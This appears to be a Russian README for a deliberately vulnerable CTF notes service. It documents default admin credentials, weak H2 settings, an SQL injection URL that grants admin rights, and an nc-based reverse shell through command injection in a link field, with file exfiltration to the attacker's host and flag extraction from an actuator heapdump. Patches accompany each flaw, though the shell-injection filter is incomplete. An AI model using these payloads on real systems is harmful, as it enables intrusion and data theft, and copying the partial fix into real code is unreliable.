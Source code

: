 # Документация

### Запуск
----------
Для запуска на хостовой машине должны быть установлены:
1. [openjdk 20](https://jdk.java.net/20/)
2. [maven](https://maven.apache.org/)
3. [docker](https://www.docker.com/)
4. Bash или другой шелл

Для запуска необходимо по очереди выполни два скрипта.<br/>
Первый это `create-image.sh`, он создаст докер образ.<br/>
Второй это `run-image.sh`, он запустит докер образ.

### Стандартные пользователи
----------------------------
В приложение добавлены два стандартных пользователя.
1. login: `admin`, password: `admin` - является админом и может просматривать записи всех пользователей
2. login `user`, password: `user` - обычный пользователь

Чтобы изменить порт, на котором будет работать сервис нужно:
1. изменить его в файле `src/main/resources/application.yml`
2. нужно изменить в файле `run-image.sh`

## Разбор уязвимостей и их патч
### 1 логин и пароль по умолчанию
---------------------------------
Первым делом следует проверить, не забыл ли кто-то сменить пароль для администратора.
#### Фикс:
сменить логин для админа через экран смены пароля.
### 2 слабые настройки и настройки по умолчанию
-----------------------------------------------
В файле `applicaton.yml` находятся настройки системы.<br/>
Слабыми настройками является:
- `h2.console.enable: true` которая включает веб консоль
- `h2.console.path: /h2-ui` которая определяет URL адрес веб интерфейса для БД
- `datasource.username: sa` которая определяет имя пользователя для БД
- `datasource.password: ` которая задает пароль для БД (по умолчанию пароль отсутствует) 

#### Фикс:
сменить данные настройки
### 3 SQLI
----------
Если залогиниться под пользователем, то внизу страницы будут доступны фильтры. При изменении фильтр отправляется GET request: `http://{host}:{port}/notes?filter=ACTIVE&sort=TIMESTAMP`.<br/>
В этот запрос можно вставить SQLI. Например: `http://{host}:{port}/notes?filter=ACTIVE&sort=TIMESTAMP;update%20custom_user%20set%20is_admin%20=%20true%20where%20username%20=%20%27user%27`. Этой SQLI мы меняем права для пользователя `user`. Так же можно сменить пароль администратору или выполнить любое другое действие.
#### Фикс:
Для исправления этой уязвимости обернем поля в Enum, которые подставляются в SQL запрос. Это поля `sort` и `filter`. Поле `filter` уже обернута в Enum. Осталось обернуть поле `sort`. Самый простой способ это сделать так:
```java
NoteSortEnum.valueOf(sort).toString()
```
Это нужно сделать в методах `findAllWithFilterAndSort` и `findAllByOwnerNameWithFilterAndSort` в классе `NoteService`.<br/>
Получаем следующий код:
- `findAllWithFilterAndSort`
```java
 public List<Note> findAllWithFilterAndSort(
    @NonNull NoteFilterEnum filter,
    @NonNull String sort
) {
    var noteEntityList = switch (filter) {
        case ALL -> noteRepository.findAllWithSort(NoteSortEnum.valueOf(sort).toString());
        case ACTIVE -> noteRepository.findAllWithFilterAndSort(false, NoteSortEnum.valueOf(sort).toString());
        case COMPLETED -> noteRepository.findAllWithFilterAndSort(true, NoteSortEnum.valueOf(sort).toString());
    };
    return mapEntityToModel.mapNoteEntityListToNoteModelList(noteEntityList);
}
```
- `findAllByOwnerNameWithFilterAndSort`
```java
public List<Note> findAllByOwnerNameWithFilterAndSort(
    @NonNull String name,
    @NonNull NoteFilterEnum filter,
    @NonNull String sort
) {
    var noteEntityList = switch (filter) {
        case ALL -> noteRepository.findAllByOwnerUsernameWithSort(name, NoteSortEnum.valueOf(sort).toString());
        case ACTIVE -> noteRepository.findAllByOwnerUsernameWithFilterAndSort(name, false, NoteSortEnum.valueOf(sort).toString());
        case COMPLETED -> noteRepository.findAllByOwnerUsernameWithFilterAndSort(name, true, NoteSortEnum.valueOf(sort).toString());
    };
    return mapEntityToModel.mapNoteEntityListToNoteModelList(noteEntityList);
}
```
### CLII
--------
Данная уязвимость закрыта в поле проверить ссылку. Там можно выполнять и другие команды Shell. Можно написать следующую ссылку `google.com; nc {host} {port} -e /bin/sh` и запустить прослушивание на своей машине этого порта, что откроет reverse shell. Дальше требуется скачать файл сборки `super-todo.jar` и файл БД `testbd.mv.db`.<br/>
Это можно сделать множеством способов. Например на host выполнить `nc -lp 8010 > /tmp/j.jar`, а на attacked `cat super-todo.jar | nc {host} 8010`. После чего файл будет скачен. Дальше нужно декомпилировать `super-todo.jar`. Для этого можно воспользоваться `jd-gui`.<br/>
В декомпилированном jar файле находим файл с конфигом. Дальше можно подключиться через WEB-consol к БД и прочитать от туда флаги.
#### Фикс:
Самый простой способ это в маппере `MapDtoToModelInt` в методе `mapFormatLink` написать замену для всех возможных разделителей команд в shell.
```java
@Named("formatLink")
default String mapFormatLink(String link) {
    link = link
        .replace(";", "")
        .replace("&&", "")
        .replace("||", "")
        .replace("\n", "");
    if (link.startsWith("http")) {
        return link;
    } else {
        return String.format("http://%s", link);
    }
}
```
### HeapDump
------------
Данной уязвимостью можно воспользоваться не в любой момент времени. Для того чтобы она сработала требуется выполнения двух условий:
1. кто-то должен прочитать флаг из БД. То есть собственники сервиса должны зайти под админом, которому видны записи всех пользователей или чтобы чекер произвел проверку.
2. сборщик мусора не успел почистить память.

При тестах два условия выполнялись очень часто. Суть уязвимости заключается в следующем. У авторизованного пользователя есть доступ к набору скрытых эндпоинтов\ручек. Список всех этих ручек можно получить выполнив `GET http://{host}:{port}/actuator`. Интересным является запрос с получением дампа кучи. Его можно получить выполнив `GET http://{host}:{port}/actuator/heapdump`. После этого загружается файл с дампом кучи. Для поиска флага можно выполнить `string heapdump | grep "&textBody="`. Данная команда выведет список всех тел заметок, которые были в куче.
#### Фикс:
Для фикса нужно просто выключить этот эндпоинт. Можно отключить все кроме `health`, поскольку он показывает работает сервис или нет. <br/>
Пример:
```
management:
  endpoints:
    web:
      exposure:
        include: "*" #health - need for life
        exclude: heapdump
```
